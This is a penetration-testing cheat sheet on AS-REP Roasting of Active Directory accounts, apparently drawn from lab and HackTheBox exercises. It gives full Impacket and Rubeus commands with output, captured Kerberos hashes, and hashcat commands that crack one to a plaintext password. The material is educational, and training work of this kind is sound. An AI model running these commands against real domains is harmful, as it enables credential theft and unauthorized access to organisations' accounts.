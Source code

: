 # AS-REP Roasting

## Recap

The first step of authentication in Kerberos is to send an AS-REQ to the domain controller. If the authentication is successful, a AS-REP is sent to the AD user containing the session key and Ticket Granting Ticket (TGT). This is called _**Kerberos Pre-authentication**_.



## AS-REP Roasting

_**A user is vulnerable to AS-REP Roasting if Kerberos Pre-authentication is disabled.**_

AS-REP Roasting is when an attacker sends a AS-REQ on behalf of another user after acquiring a  AS-REP from the server. The attacker can use an offline password against the encrypted response.

## Attacking with Impacket-GetNPUsers

```powershell
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

The output shows that dave has kerberos pre-authentication set to disabled. He's vulnerable to AS-Roasting!

### Cracking with Hashcat

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
</strong>...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f33...751a876a756757dc22:Flowers1
</code></pre>



## AS-REP Roasting without credentials

If we have a user list but no credentials we can look for users that don't require Kerberos pre-authentication "AS-REP Roasting"

```sh
kali@kali:~$ impacket-GetNPUsers -dc-ip htb.local -request 'htb.local/'                                                                     
Impacket v0.11.0 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-02-07 22:18:28.185616  2024-02-07 09:14:25.279474  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:20a92d6ea68903d4bb8aa15dc9592fdf$98ce719d2b34cee82612532f8b7bb1858466e7a001b307bbfde16fa469dd86f6843c8b4b79ead213c27df71639156513bd41f39d236f3cde4158a9da513c886f893ce39fa3ceadb528417d02ef50b91d5df0e2eec926a42cc19108783b45f582ea59d86fd2111e83ea4d54ebb59b4ad5eb78e02213ba44488e74ce73c3f8fa8775bc780f0822400662cb08e1f0d59b815a65d4eec9abc6e9211bdfd9e963d849970791873dd108e802b16c8f6686393ac8a9c1bcbc9d509542188da56fdb7066f025ce0200e397607448672a66eb2f08642a5b57a951e277337560387e2878400f4c6e4f49dc



```



## AS-REP Roasting with Username files

If we have a <mark style="color:yellow;">**usernames.txt**</mark> file we can add it.&#x20;

```shell-session
kali@kali$ impacket-GetNPUsers -usersfile usernames.txt -request -format hashcat -outputfile ASREPRoastable.txt -dc-ip intelligence.htb 'intelligence.htb/'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User William.Lee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Scott.Scott doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jason.Wright doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Veronica.Patel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jennifer.Thomas doesn't have UF_DONT_REQUIRE_PREAUTH set

```



## AS-REP Roasting on Windows

If we have a shell, it's easy to utilize Rubeus to perform AS-REP Roasting on Windows.

```powershell
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011..AGD91
```

### Cracking with Hashcat

We can then Ex-filtrate the hash and crack with hashcat.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
</strong>...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f33...751a876a756757dc22:Flowers1
</code></pre>
